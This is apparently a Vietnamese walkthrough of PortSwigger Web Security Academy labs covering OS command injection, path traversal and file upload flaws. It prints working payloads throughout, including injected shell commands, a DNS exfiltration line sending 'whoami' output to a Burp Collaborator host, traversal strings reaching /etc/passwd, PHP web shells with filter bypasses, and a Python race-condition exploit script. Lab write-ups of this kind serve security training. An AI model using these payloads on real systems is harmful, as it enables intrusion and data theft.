

# Web03

# **OS command injection**

### **OS command injection, simple case**

Theo như mô tả, ta sẽ thực hiện command injection vào `productID`.

Gửi payload `;+whoami` để thực hiện command injection



---

### **Blind OS command injection with time delays**

Theo như mô tả, ta sẽ thực hiện command injection vào phần feedback.

Do ta chưa biết parameter nào sẽ thực thi OS command nên ta thử `;+sleep+10` vào tất cả parameter (ngoại trừ `csrf`)

Nhận thấy server mất 10s để phản hồi → thành công


---

### **Blind OS command injection with output redirection**

Theo như mô tả, ta sẽ thực hiện command injection vào phần feedback.

Thử sửa `;+sleep+10;` vào từng parameter → thấy parameter `email` mất 10s để phản hồi → thực hiện command injection vào parameter `email`

Ta biết được `/var/www/images/` có quyền viết → ta sẽ redirect output kết quả của command vào file bên trong folder đó `;whoami+>/var/www/images/whoami.txt+%26%26+sleep+10;`

Theo như mô tả, ảnh của từng product sẽ được lấy trong `/var/www/images` → lấy url của ảnh, thay `filename` bằng tên file ta vừa tạo (`whoami.txt`)


---

### **Blind OS command injection with out-of-band interaction**

Gửi payload `;ping+cjzogc7gzc4ndef7c0nlexny3p9fx4.burpcollaborator.net;` để server thực hiện DNS lookup


Trong Burp Collaborator client nhận được request → thành công


---

### **Blind OS command injection with out-of-band data exfiltration**

Gửi payload `;ping+$(whoami).u7264uvynus51w3p0ib32fbgr7x2lr.burpcollaborator.net+;` để server thực hiện DNS lookup


Trong Burp Collaborator client nhận được request với tên user → thành công

# Directory traversal

### **File path traversal, simple case**

Theo như mô tả, ta có thể thực thi path traversal ở mục hiện ảnh của sản phẩm

Gửi payload là vị trí đến file `passwd`


---

### **File path traversal, traversal sequences blocked with absolute path bypass**

Theo như mô tả, ta có thể thực thi path traversal ở mục hiện ảnh của sản phẩm, nhưng không thể thực hiện `../../..`

Do đó ta có thể thử dùng absolute path. Gửi payload `/etc/passwd`.


---

### **File path traversal, traversal sequences stripped non-recursively**

Theo như mô tả, server sẽ cắt đoạn  `../` do đó  `....//....//....//etc/passwd` sau khi được server xử lí sẽ thành `../../../etc/passwd`


---

### **File path traversal, traversal sequences stripped with superfluous URL-decode**

Theo như mô tả, server sẽ kiểm tra xem có `../` rồi URL-decode xâu đó. Do đó ta có thể bypasss bằng double URL-encode `/` thành `%252f`

Gửi payload `..%252f..%252f..%252fetc/passwd`


---

### **File path traversal, validation of start of path**

Theo như mô tả, server sẽ kiểm tra phần đầu của path có đúng là `/var/www/images/` không.

Ta có thể dùng `../` để leo lên các thư mục mẹ.

Gửi payload `/var/www/images/../../../etc/passwd`


---

### **File path traversal, validation of file extension with null byte bypass**

Theo như mô tả, server sẽ kiểm tra đuôi file có hợp lệ không. Do đó ta có thể thử dùng `null byte` để bypass do khi đọc xâu, hàm sẽ đọc đến ký tự `null`.

Gửi payload `../../../../etc/passwd%00.jpg`


# **File upload vulnerabilities**

### **Remote code execution via web shell upload**

Tạo file `ava.php` với nội dung

```php
<?php include("/home/carlos/secret");
```

Dùng tính năng thay avatar để upload file lên website và reload website.


Ta đã lấy được nội dung trong file `secrete`

---

### **Web shell upload via Content-Type restriction bypass**

Tạo file `ava.php` với nội dung

```php
<?php include("/home/carlos/secret");
```

Bật `Intercept` trong Burp Suite, đổi `Content-Type` thành `image/jpeg` (file ảnh)

Upload thành công


Trở về trang chủ, đọc file ava ta vừa upload → được nội dung file `secret`


---

### **Web shell upload via path traversal**

Tạo file `ava.php` với nội dung

```php
<?php include("/home/carlos/secret");
```

Bật `Intercept` trong Burp Suite, đổi `filename` thành `..%2fava.php` để lưu file ra ngoài folder avatar


Truy cập file vừa tải lên bằng url, ta được nội dung file `secret`


---

### **Web shell upload via extension blacklist bypass**

Tạo file `ava.lmao` với nội dung

```php
<?php include("/home/carlos/secret");
```

Tạo file `.htaccess` với nội dung sau để server xử lí file đuôi `.lmao` như một file `php`

```
AddType application/x-httpd-php .lmao
```

Lần lượt upload file `.htaccess` và `ava.lmao` lên server bằng chức năng upload avatar

Truy cập file `ava.lmao` mà ta vừa upload, nhận thấy lệnh php đã được thực thi và ta đã đọc được nội dung file `secret`


---

### **Web shell upload via obfuscated file extension**

Nhận thấy server không cho phép ta upload file `.php`, và cũng không thể bypass bằng cách đổi content-type, ta có thể thêm `null byte` vào sau `.php` và thêm `.jpg`. Tên file sẽ thành
`ava.php%00.jpg`. Dự đoán server khi đọc tên file sẽ kiểm tra cuối tên là .jpg, nhưng khi xử lí để lưu sẽ dùng hàm của C/C++, do đó nó chỉ đọc đến ký tự `null`.


Truy cập file vừa tải lên, ta được nội dung file `secret`


---

### **Remote code execution via polyglot web shell upload**

Tạo file jpg bất kì bằng paint. Upload lên [hexed.it](https://hexed.it/) và thêm đoạn code php vào sau bytes `FF D9` (bytes kết thúc phần data của jpeg)

```php
<?php include("/home/carlos/secret");
```

Ta cũng có thể thêm phần text `secret:` để dễ xác định phần nội dùng file `secret` bắt đầu từ đâu


Lưu file vừa sửa thành `ava.php`. Upload file đó lên server

Truy cập file vừa tải lên, ta được nội dung file `secret`


---

### **Web shell upload via race condition**

Tạo file `ava.php` với nội dung

```php
<?php include("/home/carlos/secret");
```

Đọc hint, ta thấy sau khi upload avatar, server sẽ lưu avatar vào `/files/avatars/<tên file>` rồi thực hiện kiểm tra xem file vừa upload có hợp lệ không. Nếu không hợp lệ thì xóa file đó đi.

Do đó, ta có thể tận dụng khoảng thời gian server đang kiểm tra hợp lệ để truy cập vào `/files/avatars/ava.php`

```python
import asyncio
import re
import time

import aiohttp
import requests

FILE_NAME = 'ava.php'
URL = 'https://ac071f1e1f112ddec0e3b740001e0040.web-security-academy.net'
URL_LOGIN = URL + '/login'
URL_MyAccount = URL + '/my-account'
URL_PostAva = URL + '/my-account/avatar'
URL_AvaLocation = URL + '/files/avatars/' + FILE_NAME

# Kiểm tra url đã hết hạn chưa
status_code = requests.get(url=URL_LOGIN).status_code
if status_code != 200:
    print(f'Status code: {status_code}')
    exit(status_code)

async def upload_ava(s: aiohttp.ClientSession, data):
    """
    Xử lí upload avatar
    :param s: session
    :param data: dict bao gồm username và csrf
    """
    try:
        print('start upload')
        data_ = {
            'avatar': open(FILE_NAME, 'rb'),
        }
        data_.update(data)
        await s.post(url=URL_PostAva, data=data_)
        print('done upload')
    except Exception as e:
        print(f"Unable to POST due to {e}")

async def exec_ava(s: aiohttp.ClientSession, i, data):
    """
    Xử lí lệnh GET đến file temp avatar lưu trên server
    Nếu truy cập được file đó thì in ra màn hình nội dung file (là secret)
    :param s: session
    :param i: id của request
    :param data: dict bao gồm csrf
    """
    try:
        print(f'-----------exec {i}-----------')
        async with s.get(url=URL_AvaLocation, data=data) as res:
            if res.status == 200:
                secret = await res.text()
                print(secret)
                with open(f'ava.html', 'w') as file:
                    file.write(secret)
        print(f'-----------done exec {i} with code {res.status}-----------')
    except Exception as e:
        print(f"Unable to GET due to {e}")

async def main():
    async with aiohttp.ClientSession() as s:
        # Login
        res = await s.get(url=URL_LOGIN)
        csrf = re.search(r'<input required type="hidden" name="csrf" value="(.*)">', await res.text()).group(1)

        data = {
            'csrf': csrf,
            'username': 'wiener',
            'password': 'peter'
        }

        res = await s.post(url=URL_LOGIN, data=data, allow_redirects=True)

        if 'Your username is: wiener' in await res.text():
            print("Logged in")
        else:
            print("Cannot login")

        res = await s.get(url=URL_MyAccount)
        csrf = re.search(r'<input required type="hidden" name="csrf" value="(.*)">', await res.text()).group(1)
        data = {
            'user': 'wiener',
            'csrf': csrf,
        }

        # Bắt đầu upload avatar và truy cập file temp avatar
        await asyncio.gather(*([upload_ava(s, data)] + [exec_ava(s, i, data) for i in range(1, 15)]))

if __name__ == '__main__':
    asyncio.run(main())
    time.sleep(1)
```

Chạy chương trình trên, ta lấy được `secret`

